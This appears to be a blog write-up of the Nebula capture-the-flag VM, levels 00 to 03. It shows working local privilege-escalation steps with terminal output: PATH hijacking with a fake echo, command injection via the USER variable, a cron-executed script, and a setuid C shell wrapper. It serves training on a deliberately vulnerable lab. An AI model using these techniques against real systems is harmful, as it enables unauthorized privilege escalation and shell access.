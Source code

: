 Title: Exploit Education - Nebula Part 1
Date: 2020-09-05
Modified: 2020-09-05
Category: Learning
Tags: ctf, exploit, nebula

# [Nebula](https://exploit.education/nebula/)

## Basics
Nebula VM has 20 levels. Each level can be accessed with `levelXX` username and the same password.

## [Level 00](https://exploit.education/nebula/level-00/)

#### Solution
```bash
find / -type f -user flag00 -perm -0400 2>/dev/null
```
Search for all files, in all directories, belonging to `flag00` user, with [setuid](https://en.wikipedia.org/wiki/Setuid). Redirect all "permission error" (stderr) messages to `/dev/null` discarding those messages.

#### Result
```bash
level00@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level00@nebula:~$ find / -type f -user flag00 -perm -0400 2>/dev/null
/bin/.../flag00
/home/flag00/.bash_logout
/home/flag00/.bashrc
/home/flag00/.profile
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```

## [Level01](https://exploit.education/nebula/level-01/)

#### Solution
Program allows to execute arbitrary program due to `system` call for `echo`.
Let's create fake echo with to run `bash` session with `flag01` UID.

#### Result
```bash
level01@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level01@nebula:~$ cat > /tmp/echo << EOF
> #!/usr/bin/env bash
> bash
> EOF
level01@nebula:~$ chmod +x /tmp/echo
level01@nebula:~$ cd ~flag01/
level01@nebula:/home/flag01$ ./flag01
and now what?
level01@nebula:/home/flag01$ PATH=/tmp:$PATH ./flag01
flag01@nebula:/home/flag01$ getflag
You have successfully executed getflag on a target account
```

## [Level02](https://exploit.education/nebula/level-02/)

#### Solution
Program is reading `USER` variable, which can be provided by attacker.

#### Result
```bash
level02@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level02@nebula:~$ USER=";bash #" /home/flag02/flag02
about to call system("/bin/echo ;bash # is cool")

flag02@nebula:~$ getflag
You have successfully executed getflag on a target account
```


## [Level03](https://exploit.education/nebula/level-03/)

#### Solution
Cron is running script which is picking up content of `writable.d` directory. It is executing whatever is there. It means, that anything what is running via cron, will have the same permissions.

#### Result
```bash
level03@nebula:~$ getflag
getflag is executing on a non-flag account, this doesn't count
level03@nebula:~$ cd ~flag03
level03@nebula:/home/flag03$ cat > writable.d/flag << EOF
> #!/usr/bin/env bash
> getflag > /tmp/flag.result
> EOF
level03@nebula:/home/flag03$ cat /tmp/flag.result
You have successfully executed getflag on a target account
```

#### Solution2
Prepare simple C program to gain bash access

#### Result2
```C
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

int main() {
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);
  system("/bin/bash");
}
```
```bash
level03@nebula:/tmp$ cat > /home/flag03/writable.d/exploit.sh << EOF
> #!/usr/bin/env bash
> cp /tmp/exploit /home/flag03/exploitable
> chmod u+s /home/flag03/exploitable
> EOF
```

#### Mistakes
##### First
I tried to create copy of `exploit` program in `/tmp` directory. However, when I tried to run it, it didn't give me `flag03` user. After looking into `/etc/fstab` it became obvious:
```
flag03@nebula:/home/flag03$ cat /etc/fstab
overlayfs / overlayfs rw 0 0
tmpfs /tmp tmpfs nosuid,nodev 0 0
```
`tmpfs` has `nosuid` option. It means, that the nosuid mount option specifies that the filesystem cannot contain set userid files.

##### Second
When I found that `nosetuid` is preventing from running program from within `/tmp`, I decided to copy `exploit` to `/home/level03`. It failed, because default user running `writable.sh` wasn't `root` but `flag03`. Solution was to copy payload to `/home/flag03` directory.
